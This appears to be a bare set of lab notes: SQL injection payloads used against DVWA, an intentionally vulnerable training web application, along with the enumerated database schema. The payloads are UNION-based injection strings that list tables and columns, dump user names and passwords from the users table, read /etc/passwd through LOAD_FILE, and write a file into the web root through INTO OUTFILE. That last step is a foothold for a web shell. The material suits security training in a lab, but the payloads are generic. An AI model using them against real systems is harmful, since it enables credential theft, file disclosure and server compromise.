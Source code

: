 ```sql
1' UNION SELECT TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='dvwa'-- -
```

```sql
1' UNION SELECT COLUMN_NAME, 2 from INFORMATION_SCHEMA.COLUMNS  -- -
```

```sql
1' UNION SELECT COLUMN_NAME, TABLE_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='dvwa' -- -
```

- Schema/Database:
	- dvwa
- Table Names:
	- guestbook
	- users

- Column Names for `users` Table
	- user_id
	- first_name
	- last_name
	- user
	- password
	- avatar
	- last_login
	- failed_login

- Column names for `guestbook`
	- comment_id
	- comment
	- name

```sql
1' UNION SELECT user, password FROM dvwa.users -- -
```

```sql
1' UNION SELECT 1, user() -- -
```

```sql
1' UNION SELECT grantee, privilege_type FROM information_schema.user_privileges-- -
```

```sql
1' UNION SELECT 1, LOAD_FILE("/etc/passwd") -- -
```

```sql
1' UNION SELECT 1, LOAD_FILE("/var/www/html/vulnerabilities/sqli/")-- -
```

```sql
1' UNION SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

```sql
1' UNION SELECT 'file written successfully!', 2 into outfile '/var/www/html/proof.txt'-- -
```

